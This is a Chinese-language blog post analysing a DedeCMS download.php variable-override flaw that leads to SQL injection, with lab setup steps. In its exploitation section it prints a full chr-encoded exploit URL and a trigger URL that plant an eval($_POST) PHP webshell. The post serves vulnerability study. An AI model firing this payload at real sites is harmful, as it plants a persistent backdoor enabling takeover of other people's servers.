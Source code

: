 ```yaml
---
layout: post
title: "[web] dedecms download.php漏洞分析及利用"
---
```


该漏洞的EXP有很多文章分享，但是漏洞分析可能由于简单，所以没有人做分享，由于是第一篇文章，所以对环境的搭建也介绍一下 :)
<hr >


#### 0x0. 测试环境初始化

系统为：kali 2017.3

dedecms版本为： 20130425

web服务为： apache2

1.安装php5, php5-mysql,php5-gd,并安装apache2 php5模块

添加新的repo(为了安装php5，默认版本的源中只有php7)

	deb http://old.kali.org/kali sana main non-free contrib
	deb-src http://old.kali.org/kali sana main non-free contrib

	apt-get update

	apt-get install php5 php5-mysql php5-gd libapache2-mod-php5

2.关闭默认的apache2 php7的模块(我们测试的源码在php5版本)

	a2dismod php7.0
	systemctl restart apache2

在/var/www/html/下创建简单的info.php

	<?php phpinfo(); ?>

访问http://server-ip/info.php,检测是否能正常加载php5

3.创建mysql 库和用户权限(默认mysql kali自带)

配置mysql记录sql语句，在`/etc/mysql/mariadb.conf.d/50-server.cnf`

> general_log_file        = /var/log/mysql/mysql.log

> general_log             = 1
> 


	service mysql start
	mysql -uroot -p
	create database dedecms_20130425;
	grant all on dedecms_20130425.* to 'victim'@'127.0.0.1' identified by 'dedecms';
	flush privileges;

在/var/www/thml/下创建conn.php

	<?php
    $con = mysql_connect("127.0.0.1", "victim", "dedecms");
    if (!$con) {
        die('connect error!!!\n');
    }   
    echo "connected successfully\n";
    mysql_close($con);

访问http://server-ip/conn.php, 检测数据库连接

4.配置dedecms源码

最后将对应的dedecms的源码，放置到/var/www/html/dedecms目录下,并设置对应的权限

	chown www-data:www-data -R dedecms-20130425/	# www-data为apache2运行的用户

接着安装dedecms, http://server-ip/dedecms-20130425/install/index.php，检测画面如下

![dedecms]({{ '/images/201801/dedecms_0_1.png' | prepend: site.baseurl }})

gd我们已经安装，可以忽略这个错误，不会影响使用(后台登录可以正确识别出验证码)

![dedecms]({{ '/images/201801/dedecms_0_2.png' | prepend: site.baseurl }})

至此 我们的环境就已经搞定了

#### 0x01 漏洞描述

漏洞大致利用流程为： 先通过`/plus/download.php?open=1&arrs1[]=...&arrs2[]=...`(不展开详细的payload了)实现变量覆盖漏洞(dedecms这里是有防护变量覆盖，只是这次漏洞是由于arrs1和arrs2会在后续被chr函数处理，就是我们看到的一堆assic值)覆盖了全局变量`$_GLOBAL['cfg_dbprefix']`(payload中的arrs1就是代表的GLOBAL变量中的key值，而arrs2代表着是对应的value值)，覆盖后会在后续的`setquery`函数中将我们的payload拼接到SQL语句中，然后通过`/plus/ad_js.php?aid=1&nocache=1`的访问会将我们注入的payload查询输出到一个模板文件中，然后ad_js.php文件使用include包含该模板文件，触发了我们的payload，利用结束。

要实现getshell就需要把arrs2数组中的值直接添加`<?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');@fclose($fp);?>` 相当于`$_GLOBAL['cfg_dbprefix'] = <?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');@fclose($fp);?>`

#### 0x02 漏洞分析

数据流会先通过`download.php`中的`include/common.inc.php`,会通过以下代码检查

![dedecms]({{ '/images/201801/dedecms_2_1.png' | prepend: site.baseurl }})

下图为`_RunMagicQuotes`,在该函数中会递归检查，除了key还有value

![dedecms]({{ '/images/201801/dedecms_2_2.png' | prepend: site.baseurl }})

通过以上代码一般的变量覆盖漏洞利用是失效的，因为无法包含关键字`cfg_`

但是在检查完后的代码中，后续会判断是否引入`dedesql.class.php`文件(这个文件是利用的关键)

![dedecms]({{ '/images/201801/dedecms_2_3.png' | prepend: site.baseurl }})

cfg_mysql_type默认配置为mysqli, 后续判断的mysqli_init(一般都存在)，所以该漏洞触发是比较严苛的。

全局变量都存在`data/config.cache.inc.php`中

![dedecms]({{ '/images/201801/dedecms_2_4.png' | prepend: site.baseurl }})

关键文件`include/dedesql.class.php`文件，漏洞代码

![dedecms]({{ '/images/201801/dedecms_2_5.png' | prepend: site.baseurl }})

全局变量没有过滤arrs1，和arrs2，并且传入的值会被遍历 通过chr函数解析。

此刻可以成功替换`$_GLOBAL['cfg_dbprefix']`值

接着代码流会继续执行download.php中的以下代码

![dedecms]({{ '/images/201801/dedecms_2_6.png' | prepend: site.baseurl }})

会执行函数`ExecuteNoneQuery2`，定义在`include/dedesql.class.php`文件

![dedecms]({{ '/images/201801/dedecms_2_7.png' | prepend: site.baseurl }})

引入漏洞函数`setquery`，定义如下：

![dedecms]({{ '/images/201801/dedecms_2_8.png' | prepend: site.baseurl }})

str_replace函数就是漏洞点，`UPDATE #@__downloads SET downloads = downloads + 1 WHERE hash='$hash'` 这个是要执行的sql语句，通过setquery将`#@__`替换成为我们之前的`$_GLOBAL['cfg_dbprefix']`的值， 最终到数据库的语句就成为以下语句：

	Query UPDATE `dede_myad` SET  normbody='<?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');echo ''fuckdede'';@fclose($fp);?>'  where aid =1 #downloads` SET downloads = downloads + 1 WHERE hash='d41d8cd98f00b204e9800998ecf8427e'

会更新表`dede_myad`中的`normbody`中的值，`aid`为1.

更为关键的一点在利用中，访问`/plus/ad_js.php`,会先查询指定aid的normbody，并写入到模板，最后include触发漏洞。

![dedecms]({{ '/images/201801/dedecms_2_9.png' | prepend: site.baseurl }})

#### 0x03 漏洞利用

利用的2个前提

一个是版本：通过`/data/admin/ver.txt`来确定 我使用的20130425

另外一个： `cfg_mysql_type == "mysqli"`,这个黑盒无法判断

因此利用的话只要版本合适，直接打payload，来检测

<pre>/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=32&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=61&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=64&arrs2[]=102&arrs2[]=111&arrs2[]=112&arrs2[]=101&arrs2[]=110&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=120&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=97&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=64&arrs2[]=102&arrs2[]=119&arrs2[]=114&arrs2[]=105&arrs2[]=116&arrs2[]=101&arrs2[]=40&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=44&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=119&arrs2[]=93&arrs2[]=41&arrs2[]=32&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=102&arrs2[]=117&arrs2[]=99&arrs2[]=107&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=39&arrs2[]=39&arrs2[]=59&arrs2[]=64&arrs2[]=102&arrs2[]=99&arrs2[]=108&arrs2[]=111&arrs2[]=115&arrs2[]=101&arrs2[]=40&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=32&arrs2[]=35
/plus/ad_js.php?aid=1&nocache=1

如果利用成功会在/plus/目录下写入x.php文件。
</pre>

#### 0x04 总结

漏洞利用可以能比较严格,漏洞虽然比较老，而且现在也找不到太多的实战目标， 不过通过了解漏洞的本质，可以让自己对漏洞的判断更加精确，让自己的基础更扎实。
